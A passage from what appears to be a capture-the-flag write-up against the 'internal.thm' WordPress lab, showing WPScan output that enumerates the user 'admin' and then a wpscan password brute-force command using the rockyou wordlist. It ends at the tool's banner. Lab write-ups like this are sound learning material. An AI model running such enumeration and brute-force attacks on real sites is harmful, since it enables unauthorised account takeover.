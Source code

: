 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Oct 17 18:37:11 2020
[+] Requests Done: 51
[+] Cached Requests: 7
[+] Data Sent: 11.81 KB
[+] Data Received: 472.077 KB
[+] Memory used: 155.973 MB
[+] Elapsed time: 00:00:11


we have user admin let's start attack the password
command used : wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt

kali@kali:~$ wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|
